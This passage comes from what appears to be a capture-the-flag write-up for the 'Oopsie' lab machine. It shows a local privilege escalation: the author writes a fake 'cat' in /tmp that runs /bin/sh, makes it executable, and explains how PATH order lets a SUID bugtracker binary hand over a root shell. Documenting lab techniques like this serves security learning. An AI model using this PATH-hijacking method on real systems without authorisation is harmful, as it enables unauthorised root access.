 
Then we move into the tmp folder:
``` shell 
robert@oopsie:/$  cd /tmp/
```

Let’ create ***a malicious cat***,
``` shell 
robert@oopsie:/tmp$  echo '/bin/sh' > cat
```

Let's make it executable.
``` shell 
robert@oopsie:/tmp$  chmod +x cat
```

Now, after making our “malicious” cat executable if we search for the
cat executable with the “which” command we will see:
``` shell 
robert@oopsie:/tmp$  which  –a  cat
/tmp/cat
/bin/cat

```



PATH is an environmental variable in Linux and other Unix-like operating systems that tells the shell which directories to search for executable files (i.e., ready-to-run programs) in response to commands issued by a user.  The first “cat” command to be executed will be "**our malicious**" “/tmp/cat”, so by running the bugtracker binary we will have access to a root shell..

<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image76.png"></div>

If we check the current effective user ID with “whoami”, we will see that we are now **root**.
<div style="width:100%; background-color:#252b34;text-align: center;;border: 1px solid black;" class="zoom"><img width="50%"  src="media/image77.png"></div> 

